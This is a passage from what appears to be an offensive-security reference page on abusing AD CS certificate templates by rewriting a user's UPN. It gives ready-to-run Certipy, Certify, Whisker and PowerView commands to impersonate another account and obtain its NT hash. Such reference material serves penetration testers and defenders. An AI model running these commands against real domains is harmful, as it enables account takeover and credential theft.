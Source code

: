 A certificate permitting client authentication can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **user3** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a **user2** session.

```batch
Certify.exe request /ca:'domain\ca' /template:"User"
```
